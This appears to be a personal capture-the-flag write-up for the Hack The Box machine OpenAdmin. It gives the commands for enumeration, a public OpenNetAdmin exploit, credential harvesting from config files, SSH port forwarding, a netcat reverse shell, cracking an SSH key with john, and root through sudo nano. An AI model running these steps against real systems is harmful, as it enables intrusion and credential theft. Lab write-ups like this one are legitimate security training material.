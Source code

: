 #portforwarding
# OpenAdmin
### Machine Maker(s): [](https://app.hackthebox.eu/users/82600)

#### Info :
``` 
OS          : Linux
Difficulty  : Easy
Points      : 0
Release     : 
IP          : 10.10.10.171
```
---
### Enumeration

As always fire-up nmap
```bash
nmap -sC -sV -A -T4 -p- 10.10.10.171 --open
```

The scan shows an ssh port and a http page. 

Let's directory bust it using wfuzz.

```bash
wfuzz -u "http://10.10.10.171/FUZZ" -w /usr/share/wordlists/dirb/common.txt --hc 404
```

![[Pasted image 20210717182659.png]]

/artwork and /music redirect to different pages.
Clicking on the login button in /music we get some dashboard page.
![[Pasted image 20210717182935.png]]

### Foothold
It is OpenNetAdmin and shows us the version too. Googling it we find an [exploit](https://github.com/amriunix/ona-rce).

We got a shell but it's not changing directories or giving full return queries. So let's try to get a reverse nc shell as we checked netcat is already present in the system by `which nc` .

We find this in the `/var/www` directory.
![[Pasted image 20210717184829.png]]

Navigating to that directory we don't find any thing that interesting so we check for config files for potential database creds. We fidn the in `/var/www/ona/local/config`

![[Pasted image 20210717185133.png]]

This password can probably used for one of the existing users on the system.

To switch the user you must first convert it to a interactive user shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

But we find no user flag so we have to horizontally escalate to joanna.

We couldn't access the internal directory before let's try that.

We find files of a website which we didn't find before in enum guessing by the name of the directory it must be a site run on the internal network.

To get into the internal network we have to do a port forwarding into our machine.
To check which ports are open and listening.

```bash
netstat -anlp | grep LISTEN
```

#### Port Forwarding 

From TryHackMe

If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.

```bash
ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN
```

#### Back to HTB Target

```
ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171 -fN
```

After doing this you can open up your browser and go to `127.0.0.1:52846` and find that website.

From the directory we found earlier there is a get parameter it is taking in and executing so we can just check if it is feeding its input into terminal.

![[Pasted image 20210717205217.png]]

Now we can just put a netcat reverse shell as we already know nc is running on the system.

For some god fucking awful reason the sudo is not working on the obtained reverse shell even after getting a tty shell. So I decided to take the id_rsa and try to ssh into it.

We try to login using with the key directly but it's still asking us the passphrase for id_rsa so we have to bring out john to crack it.

```bash
python3 /usr/share/john/ssh2john.py id_rsa > pass_hash
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash
```

We get the passphrase as `bloodninjas` 

Don't forget to change the permissions of id_rsa to read only so that ssh can accept it.

```bash
chmod 400 id_rsa
```

### Privilege Escalation

First we check the sudo permissions of the user.

We can run `/bin/nano /opt/priv` as sudo, time for [GTFO](https://gtfobins.github.io/)

```
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

The above instructions `^R^X` mean ctrl+r and ctrl+x after entering the nano file and enter the the last line.

We are root!
